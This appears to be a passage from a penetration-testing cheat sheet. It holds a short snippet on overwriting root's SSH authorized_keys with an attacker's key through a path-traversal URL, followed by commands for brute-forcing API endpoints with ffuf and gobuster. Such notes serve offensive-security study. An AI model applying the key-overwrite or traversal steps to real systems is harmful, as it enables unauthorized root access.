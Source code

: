 ```bash

# overwrite ssh keys

# craft malicious key

cat bad.pub > authorized_keys

# overwrite auth keys with attackers pulic key

http://10.10.10.xxx /menu.php?file=../../../../../root/.ssh/authorized_keys

```


## API


### identify endpoints

* look for version conventions like `/some_service/v1` or v2 or v3 etc.
* Prepare pattern for ffuf to identify api endpoints

```bash

ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://ip/FUZZ/v1/ -mc 200

```

Or use `gobuster`

`gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern`

where pattern is like 

```txt
{GOBUSTER}/v1
{GOBUSTER}/v2
{GOBUSTER}/v3
```

### identify services

Once `endpoint` identifued, look for services


```bash

ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://ip/endpoint_name/v1/FUZZ -mc 200

```

the look for subservices once service_A identified


```bash

ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://ip/endpoint_name/v1/service_A/subservice_A1 -mc 200

```

